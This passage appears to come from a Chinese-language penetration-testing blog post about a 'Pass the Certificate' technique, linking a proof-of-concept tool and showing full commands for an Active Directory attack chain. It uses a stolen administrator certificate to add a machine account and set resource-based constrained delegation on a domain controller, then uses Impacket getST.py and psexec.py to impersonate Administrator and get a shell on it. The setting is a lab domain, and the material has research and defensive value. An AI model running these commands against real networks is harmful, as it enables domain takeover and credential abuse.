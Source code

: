 你可以在这里找到我完整的 POC 代码：[PassTheCertificate.cs](https://gist.github.com/wh0amitz/8d619ee2004d323bf9d4ec3c66751a4e)

## Let’s see it in action

通过 [Shadow Credentials](https://whoamianony.top/posts/shadow-credentials/) 或其他证书窃取的方法（[THEFT1](https://whoamianony.top/posts/attack-surface-mining-for-ad-cs/#041-exporting-certificates-using-the-crypto-apis--theft1)、[THEFT3](https://whoamianony.top/posts/attack-surface-mining-for-ad-cs/#043-machine-certificate-theft-via-dpapi--theft3) 或 [THEFT4](https://whoamianony.top/posts/attack-surface-mining-for-ad-cs/#044-finding-certificate-files--theft4)）获得域控制器或域管理员等高权限帐户的证书（.pfx），然后执行以下命令，通过证书认证到 LDAPS，添加一个名为 “PENTEST” ，密码为 “Passw0rd” 的机器账户，并设置 PENTEST 到域控制器 DC01 的 RBCD。

```console
C:\Users\Marcus\Desktop> PassTheCertificate.exe -CertPath .\Administrator.pfx -CertPassword 123456 -MachineAccount PENTEST$ -MachinePassword Passw0rd -Target "CN=DC01,OU=Domain Controllers,DC=pentest,DC=com"
```

![](/assets/posts/2023-02-28-pass-the-certificate-when-pkinit-is-nosupp/image-20230228013127977.png)

此时，我们可以通过 Impacket 套件中的 getST.py 执行基于资源的约束性委派攻击，并获取用于访问 DC01 机器上 CIFS 服务的高权限票据，如图下所示。

```bash
python3 getST.py pentest.com/PENTEST\$:Passw0rd -spn CIFS/DC01.pentest.com -impersonate Administrator -dc-ip 172.26.10.11
```

![](/assets/posts/2023-02-28-pass-the-certificate-when-pkinit-is-nosupp/image-20230228013417793.png)

最后，通过设置环境变量 `KRB5CCNAME` 来使用该票据，并通过 psexec.py 获取域控制器的最高权限，如下图所示。

```bash
export KRB5CCNAME=Administrator.ccache
python3 psexec.py -k pentest.com/Administrator@dc01.pentest.com -no-pass
```

